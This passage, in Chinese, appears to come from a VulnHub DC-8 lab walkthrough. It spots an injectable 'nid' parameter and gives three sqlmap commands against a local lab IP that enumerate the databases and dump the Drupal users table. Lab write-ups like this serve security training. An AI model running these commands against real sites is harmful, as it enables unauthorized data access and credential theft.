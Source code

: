 都不行,还有一个 CVE-2018-7602 需要认证,就先 pass

点击左侧链接,出现 nid 参数,这个参数貌似可以注入

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/4.png)

SQLMAP 走起
```
sqlmap -u http://192.168.141.141/?nid=1 --dbs --batch
sqlmap -u http://192.168.141.141/?nid=1 -D d7db --tables --batch
sqlmap -u http://192.168.141.141/?nid=1 -D d7db -T users --dump --batch
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/5.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/6.png)
